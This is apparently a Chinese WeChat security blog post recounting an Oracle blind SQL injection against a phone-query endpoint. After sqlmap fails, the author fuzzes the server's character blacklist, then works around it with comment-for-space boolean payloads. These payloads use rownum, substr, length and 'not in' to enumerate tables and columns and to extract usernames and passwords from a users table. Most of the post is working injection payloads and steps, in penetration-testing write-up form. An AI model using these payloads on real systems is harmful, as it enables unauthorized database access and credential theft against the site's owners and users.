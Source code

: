 #  Oracle注射之一”射”到底

安全艺术  [ 安全艺术 ](javascript:void\(0\);)

**安全艺术** ![]()

微信号 AnQuanYiShu2022

功能介绍 渗透、SRC小记

____

___发表于_

收录于合集

关于oracle注射获取数据的实战文章还是比较少的，比较多的都是写写思路或者罗列一些payload就结束了，再比较好一点的也就是绕个WAF获取个库名，真的把数据跑出来的文还是寥寥无几的，也许是因为工作或SRC要求如此吧，但是真的去跑数据的时候还是会遇到各种挑战的，且与君共享一篇oracle注射获取数据的文吧。

 **0x00 sqlmap梭哈**

经典盲注

/queryByPhone?card=1&phone=13111111111'and'1'like'1&companysID=1 **![]()**

/queryByPhone?card=1 &phone=13111111111'and'1'like'2&companysID=1

![]()

典型的盲注，判断出注入后，多数情况下会想到sqlmap梭哈，但是结果却是这样的：![]()sqlmap也很温馨的提示了，说是可以添加tamper脚本进行尝试，玩了一段时间注入的到这里很容易就想到了可能遇上安全防护了，当然这是后话，我们可以根据sqlmap的提示接着往下走，比如
--
tamper=space2comment![]()有结果了，瞬间对sqlmap又燃起了希望，接着跑库名试试![]()未果，继续根据提示进行操作![]()![]()GG，这次不得行了，到这里单纯靠sqlmap显得不靠谱了，接下来就需要去摸清服务端的过滤规则了。

 **0x01 Fuzz黑名单注出库名** ****

通过第一步得知空格被过滤了，输入被过滤的字符，看看服务端的响应：![]()
服务端给出了友好提示，那我们直接fuzz字符，然后根据服务端响应就可以摸清过滤规则了第一种直接fuzz(%00-%ff)![]()第二种，自定义字符字典(记得选中编码，GET请求URI中的特殊字符多数是需要url编码的，否则服务端会返回400)![]()![]()很明显的看到<和>被过滤了，还有一个比较常用的|字符被干掉了，知道了这两点，其实跑个库名就很简单了，用between
and替代大于小于号就行，继续利用sqlmap的tamper脚本![]()多数情况下挖到这里其实就可以交差结束战斗了，但是毕竟2023年第一个oracle注入，必须跑出数据呀，直接sqlmap![]()意料之中，因为|被干掉了，sqlmap跑oracle数据的payload中借助了|符号(挂个代理看payload发现的)
(sqlmap.py \--purge可以清除历史记录哟)![]()

 **0x02 半手工出数据** ****

根据oracle数据库中固有的字段来跑数据 user_tables    table_nameuser_tab_columns
column_name通过rownum和not in进行单行数据输出比较幸运的是length、substr、逗号都没有被干掉具体操作如下：

1、获取表的数量

payload：

13111111111'and/**/(select/**/count(table_name)/**/from/**/user_tables)=/**/1/**/and'1'like'1

![]()

![]()

2、获取表名

先判断第一个表名长度

payload：

13111111111'and/**/(select/**/length(table_name)/**/from/**/user_tables/**/where/**/rownum=1)=/**/1/**/and'1'like'1

借助burp判断第一个表名长度：14

![]()

![]()

获取表名数据，先获取第一个表的第一个字符payload：13111111111'and/**/(select/**/substr(table_name,1,1)/**/from/**/user_tables/**/where/**/rownum=1)=/**/'A'/**/and'1'like'1(oracle数据库的库名、表名、字段都是需要大写的，还有常见的字符如_、$和数字，其中$需要进行url编码哟)![]()![]()其它字符以此类推，最终注出第一个表名：BA******_NEWS注出了第一个表名，后续表名借助rownum实现即可判断第二个表名长度，只要not
in第一个表名即可payload：13111111111'and/**/(select/**/length(table_name)/**/from/**/user_tables/**/where/**/rownum=1/**/and/**/table_name/**/not/**/in/**/('BA******_NEWS'))=/**/§1§/**/and'1'like'1![]()![]()

后续字符以此类推，其它表名玩法一样。

3、获取列名

先判断第一个列名长度

payload：

13111111111'and/**/(select/**/length(column_name)/**/from/**/user_tab_columns/**/where/**/table_name='BA******_NEWS'/**/and/**/rownum=1)=/**/'§1§'/**/and'1'like'1

![]()

![]()

获取第一个列名字符payload：13111111111'and/**/(select/**/substr(column_name,1,1)/**/from/**/user_tab_columns/**/where/**/table_name='BA******_NEWS'/**/and/**/rownum=1)=/**/'§1§'/**/and'1'like'1![]()![]()获取其它列名的方法和获取表名一样，借助not
in实现，如还是同样的先判断列名长度13111111111'and/**/(select/**/length(column_name)/**/from/**/user_tab_columns/**/where/**/table_name='BA******_NEWS'/**/and/**/rownum=1/**/and/**/column_name/**/not/**/in/**/('ID'))=/**/'§1§'/**/and'1'like'1![]()![]()再一一获取列名字符13111111111'and/**/(select/**/substr(column_name,1,1)/**/from/**/user_tab_columns/**/where/**/table_name='BA******_NEWS'/**/and/**/rownum=1/**/and/**/column_name/**/not/**/in/**/('ID'))=/**/'§1§'/**/and'1'like'1![]()![]()这里也可以写脚本跑哈，我就直接burp操作了一波，跑出一些可能包含敏感数据的表名就停下，然后跑其中的数据就行

4、获取敏感数据

经过了一段时间的注入，获取到了一个敏感表名：BA******_USERS，对应的字段：USERNAME，PASSWORD

接下来就直接获取对应的数据就行了，跑出一两条，证明危害即可

先判断第一个用户名长度

13111111111'and/**/(select/**/length(USERNAME)/**/from/**/BA******_USERS/**/where/**/rownum=1)='§1§'and'1'like'1

![]()

![]()

跑数据13111111111'and/**/(select/**/substr(USERNAME,§0§,1)/**/from/**/BA******_USERS/**/where/**/rownum=1)='§1§'and'1'like'1![]()![]()按顺序组合即可获取对应数据：ba******admin获取PASSWORD字段内容方法同上。
**0x03
总结**犹豫了两天，终于写了这个文，不觉间花了两个多小时的时间，写的还算比较细了，整个思路和利用过程基本都写到了，就这样吧，以后估计也不会如此细致的写注入的文了，且看且珍惜吧。

  

  

  

  

  

  
  
  
  
  
  
  
  
  
  
  
  

  

  

 **  
**

 **  
**

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看


